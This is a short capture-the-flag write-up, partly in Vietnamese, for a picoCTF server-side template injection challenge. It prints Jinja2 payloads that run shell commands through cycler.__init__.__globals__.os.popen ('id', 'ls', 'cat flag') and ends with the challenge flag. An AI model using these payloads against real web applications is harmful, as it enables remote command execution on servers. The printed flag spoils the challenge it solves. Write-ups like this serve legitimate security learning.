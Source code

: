 # challenge WEB 3 : SSTI 1.
![image](https://github.com/user-attachments/assets/2b9435bc-2af4-4c0c-8e90-161735b47a47)

sure this is an SSTI (Server Side Template Injection) vulnerability, some useful information and payload https://book.hacktricks.wiki/en/pentesting-web/ssti-server-side-template-injection/index.html?highlight=SSTI#ssti-in-go

I tried some basic SSTI payload and checked which Template Injection Engine it belongs to: {{7*'7'}} it returns:
![image](https://github.com/user-attachments/assets/8ac22d91-ef30-46d0-8470-8fe346a592a5)

it belongs to template engine: jinja 2 as in the hacktricks page i have linked above, after knowing it is jinja 2 i tried the payloads below until this payload it worked properly:{{ cycler.init.globals.os.popen('id').read() }}:
![image](https://github.com/user-attachments/assets/de708928-0bf1-4b2d-9bdf-8e44a5cc1cbf)

hãy thử thêm vài câu lệnh khác {{ cycler.__init__.__globals__.os.popen('ls').read() }} và tôi thấy có flag trong thư mục hiện tại, tiếp tục tới payload này và chúng ta có cờ: {{ cycler.__init__.__globals__.os.popen('cat flag').read() }}
![image](https://github.com/user-attachments/assets/9358bdbe-da19-40d9-8bcf-f3eed2406f28)

![image](https://github.com/user-attachments/assets/8d52f17d-a6a8-4231-a8a7-e88d49a92e65)

Here are each standard command, if you copy mine and get an error, please re-enter it manually:
![image](https://github.com/user-attachments/assets/d13e6a2e-d458-43d7-a7bc-d35e4711b2ed)

Problem solved: picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_eb0c6390}
